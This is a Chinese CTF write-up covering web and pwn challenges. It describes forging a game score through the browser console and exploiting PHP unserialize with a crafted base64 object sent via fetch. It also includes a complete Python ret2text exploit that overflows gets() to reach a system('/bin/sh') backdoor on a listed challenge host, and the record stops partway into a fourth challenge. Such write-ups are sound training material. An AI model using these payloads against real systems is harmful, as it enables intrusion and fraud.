









# `Web`
## `1.WEB-Snake_Game`

解题思路：
- 点击F12打开开发者工具，在sources面板查看`<script>`主逻辑代码。
- 发现在游戏结束时会调用`checkwin（score）`函数。然后查看`checkwin`函数的具体实现方式。发现前端仅把`score`当作参数，通过`POST`请求发送给了后端的`index.php`，没有其他的检查机制。
- 因此直接切换到`Console`面板，输入`CheckWin(999)`并回车，伪造了一个达到要求的分数发送给服务器。发送请求后在`Game over`的地方出现了`flag`，但是答案显示错误。从而推断可能有时间检测机制等防作弊机制。
- 于是等待一段时间，重新输入命令，这次拿到了不一样的flag，提交后显示正确。

---
## `2.WEB-PHP_Payment`
解题思路：
1‍⃣下载`src.zip`,解压后得到后端源码文件。然后开始查看源码文件。
2‍⃣然后查看代码，在`models.php`中发现可疑类，这里会将`promo_credit`的值直接加到余额里

3‍⃣然后查看别的代码，在`api/apply_coupon.php`中找到触发点。

在这个文件中引入了`models.php`
```bash
$decoded = base64_decode($couponData); -->这里拿到了用户输入的Base64

$promo = @unserialize($decoded);   -->反序列化
```
这里的实现逻辑大致如下：用户在页面输入框填的 `Base64` 字符串 → 解码 → `unserialize()` → 重建 `PromoManager` 对象 → 脚本结束时对象销毁 → `__destruct()` 执行 → 余额暴涨。
4‍⃣`buy.php`中可以看到服务器中有真实的`flag`文件，所以只要钱够（余额>=99999）就可以拿到`flag`。所以，需要构造一个 PHP 序列化的 `PromoManager` 对象，让 `promo_credit = 100000`。
5‍⃣打开对应靶机地址，`F12`打开开发者工具，然后进入`console`然后输入以下命令
```http
fetch('/api/apply_coupon.php', {

    method: 'POST',

    headers: {'Content-Type': 'application/x-www-form-urlencoded'},

    body: 'coupon=TzoxMjoiUHJvbW9NYW5hZ2VyIjoyOntzOjEyOiJwcm9tb19jcmVkaXQiO2k6MTAwMDAwO3M6MTA6InByb21vX2NvZGUiO3M6NDoidGVzdCI7fQ=='

}).then(() => location.reload())
```
然后可以看到余额变成100020，然后点击获取。但是这时提示网络错误，于是打开开发者工具，在`network`中找到`buy.php`请求，然后查看其中内容，就找到了正确的`flag`，然后提交显示正确。


---

# `PWN`
## `3.PWN-Authenticate`

1‍⃣**基础信息确认**
首先对附件中的文件进行基础信息确认：

可知该程序为**64位ELF**。
2‍⃣**逆向定位漏洞点**
进一步对程序进行逆向分析
```bash
strings vuln
objdump -d -M intel vuln
```
分析可发现，程序在认证流程中存在如下危险调用
```C
gets(password);
```
`gets()`不对输入长度进行检查，因此当输入超过缓冲区大小时，会导致栈缓冲区溢出，进而覆盖保存的返回地址。
该调用即为本题漏洞点
3‍⃣**后门函数定位**
继续分析函数符号和反汇编，可定位到后门函数：
```txt
backdoor = 0x4011f6
```
该函数内部调用：
```C
system("/bin/sh");
```
因此，目标明确为：
通过溢出覆盖返回地址，使程序返回到 `0x4011f6`。
4‍⃣**偏移量确定**
通过分析栈帧布局可知，从输入缓冲区起始位置到返回地址之间的偏移为：
```txt
0x88 = 136
```
即前 136 字节用于填充，之后的内容将覆盖返回地址。
此外，由于程序为 64 位程序，直接跳转可能会受栈对齐影响，因此需要在 `backdoor()` 前补一个 `ret` 指令地址进行对齐：
```txt
ret = 0x40101a
```
5‍⃣**EXP**
```python
import socket
import struct
import time

host = "120.27.146.76"
port = 12609

offset = 0x88
ret = 0x40101a
backdoor = 0x4011f6

payload = b"A" * offset
payload += struct.pack("<Q", ret)
payload += struct.pack("<Q", backdoor)

s = socket.create_connection((host, port))

s.recv(1024)
s.sendall(b"user\n")
time.sleep(0.2)

s.recv(1024)
s.sendall(payload + b"\n")
time.sleep(0.2)

s.sendall(b"cat flag\n")
time.sleep(0.5)

print(s.recv(4096).decode(errors="ignore"))
s.close()
```


---
## `4.PWN-NoteService`

解题思路
1‍⃣根据题目描述可知，本题的核心思路不是向栈上写入 `shellcode`，而是利用程序中已经存在的后门函数，通过栈溢出覆盖返回地址，使程序跳转到后门函数执行。
2‍⃣使用 checksec 查看程序保护：
```bash
checksec --file=vuln
```

可以看到程序开启了 `NX `保护，但 `PIE` 未开启。
`NX` 开启表示栈不可执行，因此不能直接把 `shellcode` 写到栈上执行。
`PIE` 未开启表示程序代码段地址固定，因此程序中的函数地址不会随机变化，可以直接跳转到程序中的固定函数地址。
因此本题适合使用 `ret2text` 攻击。